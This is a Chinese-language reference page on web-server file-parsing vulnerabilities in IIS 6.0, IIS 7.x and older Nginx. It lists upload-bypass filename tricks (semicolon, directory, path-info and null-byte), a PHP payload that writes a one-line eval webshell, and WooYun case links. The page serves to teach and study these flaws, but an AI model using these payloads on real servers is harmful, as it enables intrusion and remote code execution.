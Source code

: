 **相关文章**
- [解析漏洞总结 - erevus](http://www.vuln.cn/7070)

### IIS

**5.x/6.0 解析漏洞**

IIS 6.0 解析利用方法有两种

1. 目录解析

    `/xx.asp/xx.jpg`

2. 文件解析

    `wooyun.asp;.jpg `

第一种,在网站下建立文件夹的名字为 .asp、.asa 的文件夹,其目录内的任何扩展名的文件都被 IIS 当作 asp 文件来解析并执行.

例如创建目录 wooyun.asp,那么 `/wooyun.asp/1.jpg` 将被当作 asp 文件来执行.假设黑阔可以控制上传文件夹路径,就可以不管你上传后你的图片改不改名都能拿 shell 了.

第二种,在 IIS6.0 下,分号后面的不被解析,也就是说 `wooyun.asp;.jpg` 会被服务器看成是wooyun.asp

还有 IIS6.0 默认的可执行文件除了 asp 还包含这三种
```
/wooyun.asa
/wooyun.cer
/wooyun.cdx
```

- **相关案例**
    - [网站安全狗IIS6.0解析webshell访问限制bypass](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0128432)
    - [网站安全狗免杀神技+IIS6.0解析WebShell访问限制Bypass](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0104444)
    - [网站安全狗IIS6.0解析webshell访问拦截bypass](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-071861)
    - [桃源网络硬盘&IIS6.0解析漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2011-02632)

---

### Nginx

**IIS 7.0/IIS 7.5/Nginx <8.03 畸形解析漏洞**

在默认 Fast-CGI 开启状况下,黑阔上传一个名字为 wooyun.jpg,内容为

`<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>`

然后访问 wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

- **相关案例**
    - [用友软件某分站SQL注入漏洞+nginx解析漏洞](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-032250)
    - [新浪网分站多处安全漏洞(nginx解析+SQL注射等)小礼包 ](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-021064)
    - [kingsoft.com某x级域名nginx解析漏洞+爆路径 ](http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-019253)

**Nginx <8.03 空字节代码执行漏洞**

影响版:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx 在图片中嵌入 PHP 代码然后通过访问 `xxx.jpg%00.php` 来执行其中的代码

---